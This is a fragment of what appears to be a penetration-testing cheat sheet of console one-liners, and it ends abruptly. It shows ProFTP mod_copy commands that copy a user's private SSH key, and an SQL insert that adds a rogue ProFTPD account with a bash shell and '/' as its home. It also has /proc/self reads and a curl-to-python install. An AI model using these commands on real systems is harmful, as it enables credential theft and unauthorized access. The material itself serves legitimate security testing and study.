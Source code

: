 ### Working Directory

```console
$ ls -l /proc/self/cwd
```

### Log File Read

```console
$ cat /proc/self/fd/10
```

## ProFTP

```console
$ SITE CPFR /home/<USERNAME>/.ssh/id_rsa
$ SITE CPTO /var/tmp/id_rsa
```

## ProFTPD

### Add User to Database

```console
$ echo {md5}`echo -n <PASSWORD> | openssl dgst -binary -md5 | openssl enc -base64`
```

```console
mysql> INSERT INTO ftpuser (id, userid, passwd, uid, gid, homedir, shell, count, accessed, modified) VALUES ('2', '<USERNAME>', '{md5}X03MO1qnZdYdgyfeuILPmQ==', '1000', '1000', '/', '/bin/bash', '0', '2022-09-27 05:26:29', '2022-09-27 05:26:29');
```

## Python2

> https://pip.pypa.io/en/latest/development/release-process/#python-2-support

> https://github.com/pypa/get-pip

```console
$ curl https://bootstrap.pypa.io/get-pip.py | python
```

## Python

### Python HTTP Server

```console
$ python -m SimpleHTTPServer 80
$ python3 -m http.server 80
```

### Python SMTP Server
